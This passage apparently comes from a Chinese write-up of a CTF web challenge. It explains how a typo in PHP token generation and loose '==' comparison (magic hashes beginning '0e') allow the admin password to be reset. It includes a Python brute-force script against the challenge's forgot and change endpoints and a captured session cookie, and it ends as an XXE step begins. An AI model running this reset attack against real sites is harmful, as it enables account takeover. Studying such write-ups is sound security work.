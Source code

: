 这里会基于uname，time，”SECRET“生成一个md5，然后我发现这里真是写错了个单词$unam。。。

所以这里fullToken就会是md5(time+"SECRET")了，如果爆破点放在token上，那么我们确实是有可能爆破出来的，但是比赛的时候很多人都会做这个题目，所以time会经常变化，这让我们爆破的难度有点大

而对于这个time是可以变化的，每次POST访问forget的时候，这里就会刷新time，所以说之类我们可以利用**php不严格的判断**，让time进行变化，当变成0exxxxx的时候，这时候我们把sig赋值为0000就能让条件`$sig == $sigDB`满足

![image-20220626211651487](https://tuchuang.huamang.xyz/img/image-20220626211651487.png)

写个脚本来进行爆破

```python
import requests

target = "https://typhooncon-typo.chals.io"
passwd = "hack"

data1 = {
    "uname": "admin"
}

data2 = {
    "uid": "1",
    "psw": passwd,
    "token": "0000"
}
while True:
    try:
        res = requests.post(f"{target}/forgot.php", data1)
        print(res.text)
        res = requests.post(f"{target}/change.php", data2)
        print(res.text)
        if "Password Changed." in res.text:
            print(passwd)
            break
    except:
        pass
```

爆破的结果，成功更改密码

![image-20220626210234742](https://tuchuang.huamang.xyz/img/image-20220626210234742.png)



![image-20220626210204547](https://tuchuang.huamang.xyz/img/image-20220626210204547.png)

拿到cookie：`PHPSESSID=ql32dudasjts4rjbsctj0vrvqd`

## step2

这里到了profile.php，存在一个xml的使用，猜测这里是存在一个xxe的

```js
	<script type="text/javascript">
		xhr = new XMLHttpRequest()
		xhr.onreadystatechange = function(){
			document.getElementById("email").innerHTML = "E-Mail: "+this.responseText
		}
		xhr.open("get","data.php?u=<?php echo $uname;?>")
		xhr.send()

		function read(){
			var xml = '<\?xml version="1.0" encoding="UTF-8"?><user><username>'+document.getElementById("user").value+'</username></user>'

			var xhr = new XMLHttpRequest()
```